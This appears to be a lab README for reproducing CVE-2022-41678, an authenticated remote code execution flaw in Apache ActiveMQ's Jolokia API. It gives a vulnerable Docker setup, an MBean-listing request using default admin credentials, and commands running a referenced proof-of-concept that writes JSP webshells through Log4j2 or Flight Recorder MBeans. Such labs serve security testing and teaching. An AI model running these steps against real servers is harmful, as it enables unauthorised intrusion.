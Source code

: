 # Apache ActiveMQ Jolokia Authenticated Remote Code Execution (CVE-2022-41678)

[中文版本(Chinese version)](README.zh-cn.md)

Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.

Apache ActiveMQ prior to 5.16.5, 5.17.3, there is a authenticated RCE exists in the Jolokia `/api/jolokia`.

References:

- <https://activemq.apache.org/security-advisories.data/CVE-2022-41678-announcement.txt>
- <https://l3yx.github.io/2023/11/29/Apache-ActiveMQ-Jolokia-%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-CVE-2022-41678-%E5%88%86%E6%9E%90/>

## Vulnerable Environment

Execute following command to start a Apache ActiveMQ 5.17.3:

```
docker compose up -d
```

After server is started, open the `http://your-ip:8161/` and input username and password with `admin` and `admin`. Then you will see the index page of Apache ActiveMQ.

## Exploit

Firstly, listing all avaiable MBeans in Apache ActiveMQ by `/api/jolokia/list`:

```
GET /api/jolokia/list HTTP/1.1
Host: localhost:8161
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://localhost


```

![](1.png)

There are 2 exploitable MBeans that are able to perform RCE in this list.

## Method #1

The first one is using the `org.apache.logging.log4j.core.jmx.LoggerContextAdminMBean`, a MBean provided by Log4j2.

Attacker can use this MBean to update the Log4j configuration and write logs to arbitrary directories.

I prepared a [poc](poc.py) to reproduce the whole process:

```
python poc.py -u admin -p admin http://your-ip:8161
```

![](2.png)

Webshell is written to `/admin/shell.jsp` successfully:

![](3.png)

This method is limited by version of ActiveMQ, since Log4j2 was introduced in Apache ActiveMQ 5.17.0.

## Method #2

The second one is using the `jdk.management.jfr.FlightRecorderMXBean` MBean.

FlightRecorder was introduced in OpenJDK 11, users are able to use FlightRecorderMXBean to create record and save it to a file. This feature is also can be used to write webshell.

Use [poc](poc.py) to reproduce the whole process:

```
python poc.py -u admin -p admin --exploit jfr http://localhost:8161
```

![](4.png)

Webshell is written to `/admin/shelljfr.jsp` successfully:

![](5.png)
